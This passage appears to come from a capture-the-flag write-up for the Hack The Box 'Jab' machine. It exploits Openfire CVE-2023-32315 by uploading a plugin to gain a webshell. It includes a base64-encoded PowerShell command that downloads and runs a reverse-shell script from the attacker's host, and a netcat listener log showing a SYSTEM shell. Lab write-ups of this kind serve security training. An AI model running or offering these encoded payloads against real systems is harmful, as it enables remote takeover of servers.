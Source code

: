 1. Run exploit
2. login with newly added user
3. goto tab plugin > upload plugin `openfire-management-tool-plugin.jar`
4. goto tab server > server settings > Management tool
5. Access websehll with password "123"

Lets follow these steps ⏬

![Image](Pasted%20image%2020240425221651.png)
_Upload the jar file that is downloadable from the above exploit_
![Image](Pasted%20image%2020240425223252.png)
_Execute command_

For reverse shell I used the command that I used previously during <mark style="background: #FF5582A6;">dcomexec.py</mark> Tool execution.

```powershell
powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADEAOAAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAGMAcAAuAHAAcwAxACIAKQA=
```
{: .nolineno}
{: .nolineno}

![Image](Pasted%20image%2020240425224923.png)

In return to that I got the reverse shell ,don't forget to turn on the python http server to upload the <span style="color:#f04276">Invoke-PowerShellTcp.ps1</span> file.

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Jab/CVE-2023-32315]
└─$ rlwrap nc -lvnp 445                             
listening on [any] 445 ...
connect to [10.10.16.18] from (UNKNOWN) [10.10.11.4] 53923
Windows PowerShell running as user DC01$ on DC01
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files\Openfire\bin>whoami
nt authority\system
PS C:\Program Files\Openfire\bin> cd C:\Users\Administrator
PS C:\Users\Administrator> tree /f /a
Folder PATH listing
Volume serial number is E59D-A256
C:.
+---3D Objects
+---Contacts
+---Desktop
|       root.txt
|       
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       
+---Music
|      cleanup.ps1
|
...
...
+---Pictures
```